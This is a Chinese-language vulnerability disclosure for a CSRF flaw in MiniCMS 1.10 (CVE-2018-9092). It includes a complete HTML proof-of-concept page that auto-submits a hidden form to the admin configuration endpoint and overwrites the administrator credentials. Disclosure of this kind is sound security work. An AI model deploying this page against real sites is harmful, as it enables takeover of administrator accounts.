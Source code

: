 # MiniCMS 1.10存在CSRF漏洞可增加管理员账户

### 漏洞简介 

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|MiniCMS 1.10存在CSRF漏洞可增加管理员账户|2018-03-30|zixian（me@zixian.org、zixian@5ecurity.cn）|[https://github.com/bg5sbk/MiniCMS](https://github.com/bg5sbk/MiniCMS) | [https://github.com/bg5sbk/MiniCMS](https://github.com/bg5sbk/MiniCMS) |1.10| [CVE-2018-9092](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9092)| 

#### 漏洞概述 

> MiniCMS 1.10存在CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可增加管理员账户。MiniCMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/bg5sbk/MiniCMS/issues/14)告知作者。  

### POC实现代码如下： 

> CSRF测试页面代码如下：
``` html
<html>
 <head><meta http-equiv="Content-Type" content="text/html; charset=GB2312">
 <title>test</title>
 <body>
 <form action="http://127.0.0.1/minicms/mc-admin/conf.php" method="post">
 <input type="hidden" name="site_name" value="hack123" />  
 <input type="hidden" name="site_desc" value="hacktest" />  
 <input type="hidden" name="site_link" value="http://127.0.0.1/minicms" />  
 <input type="hidden" name="user_nick" value="hack" />  
 <input type="hidden" name="user_name" value="admin" />  
 <input type="hidden" name="user_pass" value="hackpass" />  
 <input type="hidden" name="comment_code" value="" />  
 <input type="hidden" name="save" value=" " /> 
 </form>
 <script>
  document.forms[0].submit();
 </script>
 </body>
 </head>
 </html>
```